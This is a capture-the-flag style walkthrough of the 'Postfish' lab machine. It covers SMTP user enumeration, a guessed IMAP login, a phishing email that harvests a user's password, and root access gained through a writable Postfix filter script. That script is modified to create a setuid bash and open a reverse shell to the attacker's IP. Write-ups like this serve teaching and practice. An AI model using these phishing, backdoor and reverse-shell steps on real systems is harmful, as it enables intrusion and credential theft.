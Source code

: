 # Postfish

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 14:08 +08
Nmap scan report for 192.168.183.137
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s
```

This box involves testing mail services. We have to add `postfish.off` to our `/etc/hosts` file to view the website on port 80.&#x20;

### Web Enumeration

The website looked rather static:

<figure><img src="../../../.gitbook/assets/image (34) (3).png" alt=""><figcaption></figcaption></figure>

There was a 'Team' page, and when viewed we get some names and roles:

<figure><img src="../../../.gitbook/assets/image (10) (1) (6).png" alt=""><figcaption></figcaption></figure>

Interesting.

### SMTP Enumeration --> Phishing Link

The website had nothing else to offer, so I went looking for exploits pertaining to the mail servers. I tested some usernames and departments like HR, and found HR existed on the server:

```
$ smtp-user-enum -M VRFY -u HR -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:15:41 2023 #########
192.168.183.137: HR exists
```

I tried some low hanging fruits, like logging in with `hr:hr` and `postfish:postfish`. Eventually, `sales:sales` worked on IMAP:

{% code overflow="wrap" %}
```
$ nc -nv 192.168.183.137 143
(UNKNOWN) [192.168.183.137] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN] Dovecot (Ubuntu) ready.
A1 LOGIN sales sales
A1 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```
{% endcode %}

I was able to find one message present within the Inbox:

```
A1 STATUS INBOX (MESSAGES UNSEEN RECENT)
* STATUS INBOX (MESSAGES 1 RECENT 1 UNSEEN 1)
A1 OK Status completed (0.001 + 0.000 secs).
```

We can read this message:

{% code overflow="wrap" %}
```
A1 SELECT INBOX
A1 FETCH 1 body[text]
* 1 FETCH (FLAGS (\Seen \Recent) BODY[TEXT] {153}
Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
)
A1 OK Fetch completed (0.001 + 0.000 secs).
```
{% endcode %}

So there's some password reset links being sent out, and perhaps we can trick a user into clicking on our link. I used `swaks` to send an email to send emails:

{% code overflow="wrap" %}
```bash
$ swaks --to SALES@postfish.off --from IT@postfish.off --header "Subject:Password Reset" --body "Click here to reset your password! http://192.168.45.208/password" --server 192.168.183.137
```
{% endcode %}

The above doesn't work, so I used 'Brian Moore', which is the name of the user part of the Sales team based on the website. There are tons of username generators online based on a name:

```bash
$ python2 username.py -n 'brian moore' > usernames
$ sed -i s/$/@postfish.off/ usernames
```

Afterwards, we can test which user is present on the server:

```
$ smtp-user-enum -M VRFY -U usernames -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usernames
Target count ............. 1
Username count ........... 93
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:31:35 2023 #########
192.168.183.137: @postfish.off exists
192.168.183.137: brian.moore@postfish.off exists
######## Scan completed at Wed Jul 12 14:31:49 2023 #########
```

`brian.moore` exists, so let's send an email to him and start a listener port to see if he clicks on our link. `swaks` doesn't seem to work for some reason, so we can just use `nc`:

```
$ nc -vn 192.168.183.137 25

MAIL FROM: IT@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Hello, 

Reset password here. http://192.168.45.208/

.

QUIT
```

After the mail sends, we get a callback on our listener port with creds:

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

We can use this password to `ssh` in as `brian.moore`:

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mail Disclaimer --> Filter Shell

I ran a `linpeas.sh` scan on the machine, and it found this interesting folder:

```
[+] Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Jul 12 06:42 /etc/postfix/disclaimer
```

It was a `bash` script:

```bash
brian.moore@postfish:~$ cat /etc/postfix/disclaimer
#!/bin/bash
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

####### Changed From Original Script #######
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
####### Changed From Original Script END #######

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

####### Changed From Original Script #######
# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi
####### Changed From Original Script END #######

$SENDMAIL "$@" <in.$$

exit $?
```

Users part of the `filter` group can write to this, and `brian.moore` is part of that group. I added this to the script:

```bash
cp /bin/bash /tmp
chmod u+s /tmp/bash
bash -i >& /dev/tcp/192.168.45.208/21 0>&1
```

This script is triggered by sending emails, so we can send another one to the machine without the phishing link to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### Sudo Mail --> Root

This new user can execute `mail` using `sudo`:

```
filter@postfish:/var/spool/postfix$ sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

We can get a `root` shell using the commands from GTFOBins:

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>
